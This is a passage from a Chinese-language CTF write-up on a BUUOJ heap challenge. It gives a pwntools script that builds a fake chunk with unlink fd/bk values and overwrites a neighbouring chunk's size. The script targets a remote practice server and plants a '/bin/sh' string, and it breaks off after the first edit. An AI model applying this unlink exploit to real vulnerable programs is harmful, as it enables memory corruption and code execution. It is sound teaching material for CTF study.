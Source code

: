 ```c
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

这题正确的解法应该是从main函数奇怪的打印实现入手，利用[house of force](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-force/#_1)结合程序里给好的后门函数获取flag。然而buu环境flag的路径错了，本地用house of force打通后远程是打不通的。还是要靠我们的unlink。

```python
from pwn import *
r=remote("node4.buuoj.cn",28967)
context.log_level="debug"


def add(length,context):
    r.recvuntil("Your choice:")
    r.sendline("2")
    r.recvuntil("Please enter the length of item name:")
    r.sendline(str(length))
    r.recvuntil("Please enter the name of item:")
    r.send(context)

def edit(idx,length,context):
    r.recvuntil("Your choice:")
    r.sendline("3")
    r.recvuntil("Please enter the index of item:")
    r.sendline(str(idx))
    r.recvuntil("Please enter the length of item name:")
    r.sendline(str(length))
    r.recvuntil("Please enter the new name of the item:")
    r.send(context)

def free(idx):
    r.recvuntil("Your choice:")
    r.sendline("4")
    r.recvuntil("Please enter the index of item:")
    r.sendline(str(idx))

def show():
    r.sendlineafter("Your choice:", "1")

add(0x40,'a' * 8)
add(0x80,'b' * 8)
add(0x80,'c' * 8)
add(0x20,'/bin/sh\x00')
#gdb.attach(r)

ptr=0x6020c8  #这里是存储要使用unlink攻击的堆块的地址。如果把要使用攻击的堆块叫做chunk，地址叫做ptr，它们的关系是*ptr=chunk
fd=ptr-0x18   #这里和下面都是公式了
bk=ptr-0x10

fake_chunk=p64(0)    #在0号堆块里伪造一个堆块
fake_chunk+=p64(0x41) #伪造堆块的大小
fake_chunk+=p64(fd)    #公式fd和bk
fake_chunk+=p64(bk)
fake_chunk+=b'\x00'*0x20  #填充的字节，为了下面能够溢出到1号堆块，也算在伪造堆块的大小里
fake_chunk+=p64(0x40)  #prev_size，和伪造堆块的size一致
fake_chunk+=p64(0x90)  #把1号堆块的size从0x91覆盖至0x90。0x91表示前一堆块已被分配，不是free状态，不是我们想要的，遂改成0x90

edit(0,len(fake_chunk),fake_chunk)
```